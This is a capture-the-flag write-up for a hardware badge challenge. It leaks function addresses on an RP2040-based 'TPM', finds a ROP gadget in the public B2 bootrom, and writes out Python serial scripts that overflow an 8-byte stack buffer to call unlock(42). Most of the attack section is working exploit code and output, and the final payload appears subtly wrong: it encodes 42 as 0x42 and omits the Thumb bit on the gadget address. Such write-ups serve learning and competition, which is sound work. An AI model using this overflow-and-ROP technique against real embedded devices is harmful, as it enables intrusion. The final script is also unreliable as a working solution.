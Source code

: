 # Challenge 4

In this challenge, a menu of commands is shown:

```
Available commands:
 * HELP    - this menu
 * VERSION - get version info
 * CLOCK   - clock info
 * REGS    - dump registers
 * UNLOCK  - unlock this vault
 * EXIT    - exit
```

A code snippet presented via mass storage shows us that the unlock function is called with a value of `0`, whereas it only unlocks on a value of `42`:

```c
void unlock(int key) {
    uart_printf("Unlock function located at 0x%p\r\n", unlock);

    if(key != 42) { uart_printf("Wrong key\r\n"); return; }
    char flag[48] = {0};

    if(key != 42) { uart_printf("Wrong key\r\n"); return; }

    //[..]

    if(key != 42) { uart_printf("Wrong key\r\n"); return; }
    uart_printf("Unlocked vault: %s\r\n", flag);
}
```

Additionally, another snippet hints the attack vector to be a stack buffer overflow:

```c
void chall4_handler(char *input, int len) {
    char cmd[8];
    memcpy(cmd, input, len);
    //[..]
}
```

Simply guessing the address where the flag is printed is not sufficient, as the flag gets built in steps with argument checks all around them. Therefore, a seemingly good solution is to build a ROP chain that calls `unlock(42)`.

------------

## Identifying TPM chip

The TPM chip is covered in opaque epoxy resin, and does not have any visible markings or exposed debug peripherals. Executing the `REGS` command shows us at least that we're likely dealing with a 32-bit ARM chip:

```
Register dump function located at 0x10000455

R0:  00000000   R1:  20040f5c   R2:  00000003   R3:  00000003
R4:  10004f40   R5:  00000006   R6:  18000000   R7:  00000000
R8:  ffffffff   R9:  ffffffff   R10: ffffffff   R11: ffffffff
R12: 00000024   R13: 20041f80   R14: 10003629   R15: 100004a4
```

Exploring further shows that the chip version is `RP2-B2`, which upon some internet searching shows that this is a RP2040 just like the other chip on the challenge badge, with bootrom version `B2`.
```
Version function located at 0x100003D5
ROM version: 3
Chip version: 2 (RP2-B2)
```

------------

## Building the ROP chain

Some of the commands leak their address when you execute them:
```
Clock function located at 0x10000409
Core number: 0
Clock (REF): 12000000 Hz
Clock (SYS): 125000000 Hz
```

We can overflow `cmd` with the (little-endian) addresses of these functions to validate that the return address of the function that called `chall4_handler` is located at `cmd + 12 bytes`:

```python
import sys, serial

with serial.Serial(sys.argv[1], 115200, timeout=1) as port:
	version_le = b"\xD5\x03\x00\x10"
	clock_le = b"\x09\x04\x00\x10"
	regs_le = b"\x55\x04\x00\x10"
	unlock_le = b"\x0D\x03\x00\x10"
	port.write(version_le + clock_le + regs_le + unlock_le + b"\n")
	while True:
		print(port.read(1024))
```

```python
b'\xd5\x03\x00\x10\t\x04\x00\x10U\x04\x00\x10\r\x03\x00\x10\r\nFrom TPM:\r\nUnknown command\r\nUnlock function located at 0x1000030D\r\nWrong key\r\n'
```

So our first gadget should appear at 12 bytes offset into our payload. Next, we need to find a gadget that puts `42` in register `r0` (which is the first function argument in the ARM EABI) and then jumps to the address of `unlock()`. A common tool for finding gadgets is [ropper](https://github.com/sashs/ropper).

Since we know that the "TPM" RP2040 is running bootrom version B2 just like the other chip on the badge, we could dump the bootrom via USB using `picotool` just like in the first challenge. However, as the RP2040 is open source, we can also just download the bootrom version we need from [https://github.com/raspberrypi/pico-bootrom/releases](https://github.com/raspberrypi/pico-bootrom/releases). Loading `b2.elf` into ropper yields a great candidate gadget:

```bash
> ropper -a ARMTHUMB -f b2.elf 
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%



Gadgets
=======
[..]
0x00003a54 (0x00003a55): pop {r0, r3, r4, r5, pc}; 
```

This gadget pops 4 bytes from the stack into `r0` (which we can use to set it to `42`), 12 bytes into registers we won't use, and 4 bytes into `pc` (which we can use to call `unlock()`). Our payload should look something like this now:

```
<12 bytes filler>
<4 bytes gadget address>
<4 bytes integer 42 value>
<12 bytes filler>
<4 bytes unlock address>
```

------------

## Putting it all together
```python
import sys, serial

with serial.Serial(sys.argv[1], 115200, timeout=1) as port:
	unlock_le = b"\x0D\x03\x00\x10"
	gadget_le = b"\x54\x3A\x00\x00"
	param_le = b"\x42\x00\x00\x00"

	payload = b"A"*12 + gadget_le + param_le + b"A"*12 + unlock_le

	port.write(payload + b"\n")
	while True:
		print(port.read(1024))
```